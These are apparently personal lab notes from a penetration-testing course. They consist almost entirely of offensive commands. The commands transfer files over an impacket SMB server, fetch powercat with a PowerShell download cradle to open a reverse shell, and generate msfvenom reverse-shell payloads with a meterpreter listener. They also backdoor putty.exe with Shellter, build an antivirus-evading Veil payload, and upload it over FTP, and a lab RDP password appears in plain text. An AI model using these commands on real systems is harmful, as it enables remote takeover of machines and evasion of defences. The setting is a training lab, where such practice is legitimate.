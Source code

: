 copy file from windows to kali - set up smb server
on kali
```
mkdir smb
impacket-smbserver -smb2support smb smb
```

from windows - cmd
```
net use \\192.168.45.194\smb
copy \Users\offsec\Desktop\malware.exe \\192.168.45.194\smb
copy \\192.168.45.194\smb\binary.exe \Users\offsec\Desktop\binary.exe
```

Another way from windows powershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.194/SpotifySetup.exe', 'SpotifySetup.exe')

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.194 LPORT=443 -f exe > binary.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.194 LPORT=443 -f powershell -v sc

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.194/powercat.ps1');powercat -c 192.168.45.194 -p 443 -e cmd"

xfreerdp -u offsec -p lab 192.168.187.62:3389

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.194;set LPORT 443;run;"
```

### VM 1

download putty.exe 32 bit
```
shellter
/home/kali/Downloads/putty.exe
```

follow prompts and select metrepeter reverse shell

set up listener
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.194;set LPORT 443;run;"
```

upload using FTP
```
ftp binary -u ftp://anonymous@192.168.187.53/putty.exe /home/kali/Downloads/putty.exe
```

did it get uploaded?
```
curl ftp://anonymous@192.168.187.53
```

use ftp console
```
ftp anonymous@192.168.187.53
> binary
> passive (turn it off)
> put /home/kali/Downloads/putty.exe putty.exe
```
### VM 2
fix veil install issue https://github.com/Veil-Framework/Veil/issues/428
```
cd /usr/share/veil
./Veil.py -t Evasion  -p=22 --ip 196.168.45.194 --port 443 --compiler py2exe
# output written to /var/lib/veil/output/source/payload.bat
> put /var/lib/veil/output/source/payload1.bat payload1.bat
```




